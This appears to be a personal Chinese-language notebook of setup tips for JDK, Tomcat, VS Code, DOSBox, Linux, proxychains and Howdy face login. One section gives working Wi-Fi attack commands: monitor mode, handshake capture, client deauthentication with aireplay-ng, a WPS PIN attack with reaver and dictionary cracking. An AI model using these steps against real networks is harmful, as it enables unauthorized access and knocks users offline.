


Java，可以直接在path中配置，但是想tomcat不能识别，只能配置java_home或者jre_home

##### jdk和tomcat

tomcat 8 不能用太高的jdk,用jdk 8就行

##### jdk改完没有作用

c-program file和 x86-common files-oracle

删掉，这里默认配置jdk路径

### 插件

#### vscode

vscode自带shift+alt+f格式化

code runner：设置 run in terminal

Open in default browser

Tomcat for java

c/c++

c++ Intelllisense

chinese

html snippets

intellisense for css in html

java server page

jstl snippets:jsp intellisense

language support for java by red hat

masm

默认输出在  输出 中，不能输入，需要设置code runner   run  in  terminal，在终端运行

### 刷系统

security boot：disable

cms：enable

F10开启boot

### git

git config --global user.name ''

git config --global user.email ''

git clone

### 挂完vpn浏览器断网

1.关代理

自动检测打开

设置脚本关闭

脚本地址空

手动设置代理关闭

地址端口空

关闭  请勿将代理服务器用于本地

2.如果是google扩展，添加的解压后的扩展，不能直接删，要在edge善2

### 万能

网页前加wn.run/

### 解决某些软件删除不了或者不能初始化

右键-属性-详细信息-删除属性及个人信息

### vscode分级文件夹

首选项-设置-功能-资源管理器-compack folders

### vscode -java package机制，找不到主类

code runner 设置，coderunner.excutormap

java

"java": "cd $dir && javac -d. $fileName && java app.$fileNameWithoutExt",

### dosbox

下载，安装

挂载：mount   C（dosbox的c盘） xxx（自己的路径）

环境变量：set PATH =$PATH$;xxx

### vscode中文乱码

vscode 默认utf-8，最好再打开自动检测

-设置-搜auto guess -启用

-windows默认为gbk，设置-语言-管理语言设置 -更改区域-启用utf-8

-最后java默认gbk，添加一个环境变量，名：JAVA_TOOL_OPTIONS

值-Dfile.encoding=UTF-8

-注册表-计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor-

新建字符串autorun，值设为chcp 65001

### vscode 开发javaee

1.jdk，jdk-utf-8

2.tomcat

3.在tomcat上运行的web工程

​        需要的文件结构

​        webapp

​        --WEB-INF      必须的配置文件

​        ---classes       编译好的class

​      --html和jsp

5.直接run on tomcat

### cmd管理员

直接搜索栏输入CMD后（不要立即回车进入），按住CTRL+SHIFT+ENTER键可直接进入管理员模式命令行。

### servlet包找不到，webservlet注解无效

把tomcat-lib-annotations-api.jar和servlet-api.jar复制到jdk-jre-lib-ext中就行了

### vscode自定义snippet

新建-用户片段

json文件格式  

 // "片段名": {

  // "prefix": "log",

  // "body": [

  //   "console.log('$1');",

  //   "$2"

  // ],

  // "description": "Log output to console"

  // }

转义:\"输出"

$2光标移动到这

### vscode中package问题

runcode 改为javac -d ./  

生成的class包含包名

如果没有写package，可以直接运行

如果有包，运行时用java   包名.class

### c scoket编译问题

需要外链lib

gcc   -L/库文件夹-l库文件名   

gcc filename   -lwsock32  需要外链wsock32 

### vscode runner  code

code runner可以在文件夹中设置不同的run，相当于不同的调试任务

### assmbly

编译asm

masm  

link

运行/debug

debug xx.exe 全称！！

| Debug-R | 查看、改变CPU寄存器的内容       |
| ------- | -------------------- |
| Debug-D | 查看内存中的内容             |
| Debug-E | 改写内存中的内容             |
| Debug-U | 将内存中的机器指令翻译成汇编指令     |
| Debug-T | 执行一条机器指令             |
| Debug-A | 以汇编指令的格式在内存中写入一条机器指令 |

### vscode 更新后重启恢复旧版

vscode的自动更新自动安装在C:\Users\admin\AppData\Local\，如果之前的vscode不在默认位置，就会更新出两个版本，如果还用了固定在开始屏幕或者任务栏，则一直在打开旧版本，把旧版本删除了，或者在安装时就选择默认位置就不会发生了

### linux 配置jdk环境

#### 1.安装openjdk

apt search  openjdk 搜索openjdk

apt install openjdk-8-jdk

安装后测试java   和java  -version都可以，但是不能javac

还需要安装 openjdk-8-jdk-headless

#### 2.在Oracle下载jdk，并配置环境变量



配置环境变量

vi  /etc/profile

在末尾加上

```bash
JAVA_HOME=/usr/jdk8

JRE_HOME=$JAVA_HOME/jre

CLASS_PATH=.:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar

PATH=$PATH:$JAVA_HOME/bin

export JAVA_HOME JRE_HOME CLASS_PATH PATH
```

启用环境变量

```bash
source /etc/profile
```

但是未永久生效

设置开启自动source

vi  \~/.bashrc




### linux sudoers文件

这个文件是记录root用户权限的，权限必须是只读，如果改了，则再也不能切换root用户。所以在切换普通用户之前要把权限改回来。

如果是wsl改不回来了，可以在win中创建一个只读文件传进去。

### apt

apt命令安装的tomcat，它的很多组件是分开存储的。  

下载的软件的存放位置：/var/cache/apt/archives  
安装后软件的默认位置：/usr/share  
可执行文件位置：/usr/bin  
配置文件位置：/etc  
lib文件位置：/usr/lib

### linux 抓包

aircrack+ac210网卡

```shell
#iwconfig
记下wlan名字

#开启监控模式
airmon-ng start wlan0

#扫描wifi列表
airodump-ng wlan0mon，然后CTRL C 记录bssid

#捕获wifi
airodump-ng --bssid F4:83:CD:B5:84:19(待破解的wifi的ssid) -c 1(CH信道channel
) -w（保存包的路径） /home/ wlan0mon
    station 记录的就是当前连接的终端

#打开另一个终端进行攻击
aireplay-ng -0 8 -c 66:9C:A1:A0:38:9F（正在连这个wifi的设备的ssid） -a F4:83:
CD:B5:84:19 wlan0mon

#当终端出现
 WPA handshake: C8:F8:6D:2F:F6:7D
就成功抓包了
```

#pin 
airodump-ng wlan0mon
#scan wps
wash -i wlan0mon
#attack
reaver -i wlan0mon -b (bssid) -vv -c (CH) 

#kali 自带解包
ircrack-ng -w pass.txt freedom-*.ivs

### linux代理pn

1.桌面系统
直接在网络-代理中手动添加socks5或https，添加ip及端口
2.终端
安装proxychains
sudo apt install proxychains
修改配置文件
sudo vim /etc/proxychains.conf
注释掉原有的socks4
#socks4        127.0.0.1 9050
添加socks5
socks5         ip        port

### ubuntu 添加人脸识别

软件howdy，proxychains

先安装proxychains

sudo apt install proxychains
配置proxychains

vi  /etc/proxychains.conf

shift+g到尾行

将sock4注释掉

添加socks5

socks5    192.168.93.165  2013(代理的ip和端口号)

安装howdy

先用直接安装，主要下载依赖

sudo apt install howdy 

接着会安装失败，因为没有挂代理

然后sudo apt remove howdy(注意别autoremove，别把依赖删了)

然后重新下载

sudo proxychains apt install howdy 
安装过程需要识别摄像头
没有识别到或者识别错就n
直到识别到人脸摄像头，就是一闪一闪的

添加人脸
sudo howdy add

#### 解决锁屏界面无法使用

sudo howdy config

设置成这样

```bash
# Print that face detection is being attempted
detection_notice = false

# Do not print anything when a face verification succeeds
no_confirmation = true
```

然后在 /etc/pam.d/中相关锁屏界面的文件，cinnamon-screensaver,lightdm*,还有login

中添加

```bash
auth            sufficient      pam_python.so /lib/security/howdy/pam.py
```
